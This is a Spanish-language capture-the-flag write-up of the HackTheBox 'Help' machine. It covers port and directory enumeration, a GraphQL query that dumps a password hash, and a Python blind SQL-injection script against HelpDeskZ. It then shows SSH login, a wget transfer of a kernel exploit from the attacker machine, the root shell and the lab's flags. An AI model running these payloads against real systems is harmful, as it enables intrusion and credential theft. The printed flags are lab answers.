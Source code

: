 ```yaml
---
title: HackTheBox - Help
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SQL Injection', Graphql, 'Kernel Exploitation']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Help/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Help Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **SQL Injection, Graphql, Kernel Exploitation**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Help`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Help/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Help/02-versions.png)

    > Vemos que si vamos colocamos la **IP** de la **`Máquina Help`** en el navegador nos redirige a **`http://help.htb`**, por lo cual lo colocamos en el archivo **`/etc/hosts`**.
    {: .prompt-info }

c. Encontramos lo siguiente en **http://help.htb**

![](/assets/images/HTB/Easy/Help/03-web.png)

* Enumeramos por posibles directorios

  ```bash
  wfuzz -c -t 80 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://help.htb/FUZZ/ 
  
  000000055:   200        96 L     236 W      4413 Ch     "support"
  ```

* Al visitar **/support** notamos que se usa **`HelpDeskz`**, si bucamos vulnerabilidades nos encontramos con una **`SQLi (Authenticated)`**, por lo cual necesitamos de credenciales válidas.

d. Enumeramos el servicio que se ejecuta por el puerto **3000** (Debemos usar varios diccionarios)

```
wfuzz -c -t 80 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/big.txt http://<IP>:3000 

000020476:   400        0 L      3 W        18 Ch       "graphql" 
```

## Grapql Exploitation 🍇

* El servicio de **graphql** puede ser explotable [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)

  1. Enviamos una petición por **POST** para enumerar el servicio

      ![](/assets/images/HTB/Easy/Help/06-data.png)


      ```bash
      curl -s -X POST "http://<IP>:3000/graphql" -H "Content-Type: application/json" -d 'PAYLOAD' \| jq
      ```

      ```json
      <SNIP>
      "name": "User",
      "fields": [
        {
          "name": "username"
        },
        {
          "name": "password"
        }
      ]
      <SNIP>
      ```

  2. Ahora, podemos enviar una solicitud para obtener el esquema de **graphql** y poder representarlo gráficamente en [Graphql-Voyager](https://graphql-kit.com/graphql-voyager/)

  
      * En navegador: 

        ```
        http://<IP>:3000/graphql?query=fragment%...[PAYLOAD EN HACKTRICKS]...
        ```

      * El output del navegador lo pegamos en [Graphql-Voyager](https://graphql-kit.com/graphql-voyager/) y podremos ver de mejor forma la **"base de datos"**


        ![](/assets/images/HTB/Easy/Help/04-graphql.png)

        > Representación de `Graphql`

      * Ahora, realizamos una consulta para obtener los datos, en base al esquema anterior

        ```
        curl -s -X POST "http://<IP>:3000/graphql" -H "Content-Type: application/json" -d '{"query":"{user{username,password}}"}'

        {"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}
        ```

  3. La contraseña está cifrada con **MD5**, usamos **`dcode 5d3c93182bb20f07b994a7f617e99cff`** y la veremos en texto plano **`godhelpmeplz`**

     * Ahora, nos podemos autenticar en el servicio **`http://help.htb/support`** y podemos explotar la vulnerabilidad **SQLi**

        ```python
        import requests
        import string
        from pwn import *

        url_main = "http://help.htb"
        characteres = string.ascii_letters + string.digits + ',.+@_ :'

        headers = {"Cookie": "<Cookie>"}
        bar_1 = log.progress("Brute Force")
        bar_1.status("Starting Brute Force...")
        bar_2 = log.progress("Data")
        database_name=""

        for position in range(1,200):
          for character in characteres:
            sqli_url = f"/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=7 and substr((select group_concat(username,':', password) from staff),{position},1) = '{character}'-- -"
            bar_1.status(sqli_url)
            r = requests.get(url_main+sqli_url, cookies=headers)
            if ("Page not found" not in r.text):
              database_name+=character
              bar_2.status(database_name)
              break
        ```


       ```bash
       [q] Databases Name: information_schema,mysql,performance_schema,support
       [-] Tables 'support': articles,attachments,canned_response,custom_fields,departments,emails,error_log,file_types,knowledgebase_category,login_attempt,login_log,news,pages,priority,settings,staff,tickets,tickets_messages,...
       [l] Columns: id,username,password,fullname,email,login,last_login,department,timezone,signature,newticket_notification,avatar,admin,status
       [k] username, password: admin:d318f44739dced66793b1a603028133a76ae680e (SHA1) -> Welcome1
       ```

  4. Al autenticarnos en el servicio **`HelpDeskz`** conseguimos un nombre de usuario

  ![](/assets/images/HTB/Easy/Help/05-user.png)

  5. Al ir testeando con algunos nombres de usuarios que contengan **`helpme`** damos con **`help`** para autenticarnos en el servicio **`ssh`**

    ```bash
    ssh help@<IP>
    Password: Welcome1
    help@help:~$
    ```

### Escalada de Privilegios 💹

a. El sistema es vulnerable a un **`kernel exploit`** [Exploit](https://www.exploit-db.com/exploits/44298)

```bash
help@help:~/help$ uname -a           
Linux help 4.4.0-116-generic #140-Ubuntu
```

b. Lo descargamos en nuestra **Máquina Atacante** para tranferirlo a la **`Máquina Víctima`**

* Máquina Atacante: **python -m http.server 8000**
* Máquina Víctima: **wget <tun0 IP>:8000/exploit.c -o-** -> **gcc exploit.c -o backup**

c. Una vez ejecutamos el archivo **`backup`** tenemos acceso como **`root`** y podemos leer las **`flags`**

```bash
help@help:~/help$ ./backup 
task_struct = ffff880038906a40
uidptr = ffff88003619a6c4
spawning root shell
root@help:~/help# whoami
root
root@help:~/help# find / -name root.txt 2>/dev/null | xargs cat
f68cb05096d8f2a4bb36f975435c582a
root@help:~/help# find / -name user.txt 2>/dev/null | xargs cat
401375d4050453ea5583cd902da8104a
```